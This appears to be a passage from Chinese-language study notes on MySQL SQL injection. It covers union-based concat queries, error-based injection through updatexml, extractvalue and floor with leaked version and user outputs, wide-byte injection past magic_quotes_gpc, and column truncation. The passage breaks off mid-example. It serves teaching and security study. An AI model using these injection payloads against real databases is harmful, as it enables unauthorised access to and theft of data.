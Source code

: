#### （3）连接字符串
在MySQL查询中，如果需要一次查询多个数据，可以使用concat()或concat_ws()函数来完成。
```sql
concat()函数:select name from student where id=1 union select concat(user(),',',database(),',',version());
concat_ws()函数：select name from student where id=1 union select concat_ws(0x2c,user(),database(),version());
``` 
### 五、MySQL显错式注入
（1）通过updatexml函数，执行SQL语句
```sql
select * from message where id=1 and updatexml(1,(concat(0x7C,(select @@version))),1);
``` 
显示结果如下：
```sql
ERROR 1105 (HY000):XPATH syntax error: '|5.1.50-community-log'
```   
（2）通过extractvalue函数，执行SQL语句
```sql
select * from message where id=1 and extractvalue(1,concat(0x7C,(select user())));
```  
显示结果如下：
```sql
ERROR 1105 (HY000):XPATH syntax error: '|root@localhost'
```
（3）通过floor函数，执行SQL语句
```sql
select * from message where id = 1 union select * from (select count(*),concat(floor(rand(0)*2),(select user()))a from information_schema.tables group by a)b
```
显示结果如下：
```sql
ERROR 1062 (23000):Duplicate entry '1root@localhost' for key 'group_key'
```
通过此类函数，可以达到与SQL Server数据库显错类似的效果。

### 六、宽字节注入
是由编码不统一所造成的，这种注入一般出现在PHP+MySQL中
如果在php.ini中打开了magic_quotes_gpc，用户输入0xbf27，经过转义后变成0xbf5c27，但0xbf5c又是一个字符，因此原本会存在的转义符号“\”，在数据库中就被“吃掉”了。单引号又显现了出来。

### 七、MySQL长字符截断（SQL-Column-Truncation）
在MySQL中的一个设置里有一个sql_mode选项，当sql_mode设置为default时，即没有开启STRICT_ALL_TABLES选项时，MySQL对插入超长的值只会提示warning，而不是error，这样就可能会导致一些截断问题。
新建一张表测试，表结构如下（MySQL 5.1）
```sql
CREATE TABLE USERS(
   id int(11) NOT NULL,
   username varchar(7) NOT NULL,
   password varchar(12) NOT NULL
)
``` 
分别插入以下SQL语句
（1）插入正常的SQL语句
```sql
mysql> insert into users(id,username,password) values (1,'admin','admin');
Query OK,1 row affected (0.00 sec)
``` 
（2）插入错误的SQL语句，此时的"admin   "右面有三个空格，长度为8，已经超过了原有的规定长度。
```sql
mysql> insert into users(id,username,password) values (2,'admin   ','admin');
Query OK,1 row affected,1 warning (0.00 sec)
``` 
（3）插入错误的SQL语句，长度已经超过原有的规定长度。
```sql
mysql> insert into users(id,username,password) values (3,'admin   x','admin');
```